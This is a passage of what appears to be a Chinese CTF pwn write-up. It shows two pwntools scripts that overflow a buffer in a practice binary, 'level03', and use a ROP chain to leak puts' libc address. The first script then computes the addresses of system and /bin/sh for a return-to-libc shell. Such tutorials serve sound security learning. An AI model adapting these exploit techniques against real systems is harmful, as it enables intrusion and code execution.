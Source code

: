 ![image-20220318201135271](Self-help_Clown.assets/image-20220318201135271.png)

有了偏移量就可以直接计算了

```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")

pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
print hex(puts_addr)
libc_base = puts_addr - 0x6f6a0	# 计算libc基地址
sys_addr = libc_base + 	0x453a0	# 计算system地址
bin_sh = libc_base + 0x18ce17	# 计算/bin/sh地址
o.interactive()
```

但是这种方法有个缺点就是如果libc匹配的很对就需要一条一条试

-   第二种, 题目给定了libc文件

那么就可以用pwntools内置ELF模块对libc进行解析, 然后来计算

```python
from pwn import*
o = process("./level03")
elf = ELF("./level03")
libc = ELF("./libc6_2.23-0ubuntu11.2_amd64")	# 解析libc
pop_rdi = 0x00000000004005d3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = 'a'*0x18	# 填充buf和rbp
payload += p64(pop_rdi) + p64(puts_got)	# puts@got作为puts函数的参数
payload += p64(puts_plt)	# 执行puts函数将puts的真实地址打印出来
o.recv()	# 需要将输出缓冲中的东西都读取出来, 要不然就会影响下面puts_addr的读出
o.sendline(payload)
puts_addr = u64((o.recv(6)).ljust(8, '\x00'))
```